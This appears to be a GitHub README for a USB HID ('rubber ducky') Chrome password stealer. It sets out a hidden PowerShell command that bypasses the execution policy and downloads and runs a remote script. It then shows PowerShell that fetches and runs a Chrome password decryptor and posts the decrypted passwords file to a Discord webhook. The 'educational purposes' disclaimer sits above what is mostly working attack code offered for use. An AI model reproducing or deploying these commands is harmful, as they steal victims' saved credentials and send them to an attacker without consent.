 THIS SCRIPT IS ONLY INTENDED FOR EDUCATIONAL PURPOSES
(decrypt script made by ohyicong)

# Dependencies:
- Windows
- Python

# How it Works:

(This code is very unoptimized, but i havent bothered fixing it)

## The rubber ducky script
When the grabber.dd runs it opens a powershell terminal window and enters this string:

```
powershell -w h -NoP -NonI -Exec Bypass -c "cd $env:USERPROFILE\Documents ; iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/chrome-password-stealer/starter.ps1 -OutFile $Env:USERPROFILE\Documents\starter.ps1 ; powershell.exe -File .\starter.ps1 -webhookUrl "<Your discord webhook here>""
```

### Flags used:

The ```powershell -w h -NoP -NonI -Exec Bypass -c``` tells powershell to execute a set of commands with some flags:
- ```-w h``` tells powershell to run in a hidden window so the victim cant see logs
- ```-NoP``` makes sure that none of the users profiles are loaded, which could mess up execution
- ```-NonI``` Makes the user unable to interact with the script while its running
- ```-Exec Bypass``` Makes powershell bypass the execution policy which allows powershell to run scripts
- ```-c``` tells powershell what commands to execute, the commands are enclosed in quotes and seperated with semicolons
- Now the script proceecds to execute a sequence of commands

### Commands ran:

1. The first command ran is ```cd $env:USERPROFILE\Documents``` which takes us into the users Documents folder where we will be doing everything
   
2. Next we run ```iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/chrome-password-stealer/starter.ps1 -OutFile $Env:USERPROFILE\Documents\starter.ps1``` which invokes a web request to the github link where the starter.ps1 script is and downloading it, the script is placed in the Documents folder with the -OutFile argument
  
3. Now we run ```powershell.exe -File .\starter.ps1 -webhookUrl "<Your discord webhook here>"``` as our last command. This uses the powershell interpreter to execute the starter.ps1 script and then passes the variable -webhookUrl to the powershell script. This is used for the discord webhook in the script. Dont forget to put your discord webhook there or it wont work.

## The powershell script

The powershell script is used as sort of a base of operations, it downlaods the python password decryptor and sends the file over discord. Heres how it works:

### Extracting the passwords:

To extract the passwords saved in chrome we use a python script made by ohyicong, if you are interested in how it works you can read his [medium article](https://ohyicong.medium.com/how-to-hack-chrome-password-with-python-1bedc167be3d)

First we tell powershell where python is located on the system so we can use it to execute the script:
```powershell
$filePath = "$env:LocalAppData\Programs\Python\Python311\python.exe"
```
Then we install the needed python libraries, if the user already have the libraries pip will automaticly cancel the installation and the script will proceed wither way.
```powershell
py -m pip install pycryptodomex pywin32
```
Then we download the python script the same way the rubber ducky script downloaded the ```starter.ps1``` scrip:
```powershell
Invoke-WebRequest -Uri https://github.com/simen64/Pico-HID-Scripts/blob/main/chrome-password-stealer/decrypt_chrome_password.py -OutFile $Env:USERPROFILE\Documents\stealer.py
```
Now we run the python script using this line. The ```&``` tells powershell to execute a command. The ```$env``` variable is where python is located and the ```$Env``` variable is where the python script is saved from the previous step
```powershell
& $env:LocalAppData\Programs\Python\Python311\python.exe $Env:USERPROFILE\Documents\stealer.py
```

### Sending the passwords over Discord

This part of the code is what takes the decrypted passwords file and sends it to you over discord. I am not going to explain how this works as i am not good in powershell scripting and shamelessly stole this part of stackoverflow and chatGPT XD.
```powershell

$user = $env:USERNAME

$file = "C:\Users\$user\Documents\decrypted_password.csv"

$message = "Extracted passwords:"

$boundary = [System.Guid]::NewGuid().ToString()

$fileContent = [System.IO.File]::ReadAllBytes($file)

$bodyLines = @(
    "--$boundary",
    "Content-Disposition: form-data; name=`"content`"",
    "",
    $message,
    "--$boundary",
    "Content-Disposition: form-data; name=`"file`"; filename=`"file.txt`"",
    "Content-Type: application/octet-stream",
    "",
    [System.Text.Encoding]::Default.GetString($fileContent),
    "--$boundary--"
)

$body = $bodyLines -join "`r`n"

$headers = @{
    "Content-Type" = "multipart/form-data; boundary=$boundary"
}

Invoke-RestMethod -Uri $webhookUrl -Method Post -Headers $headers -Body $body
```
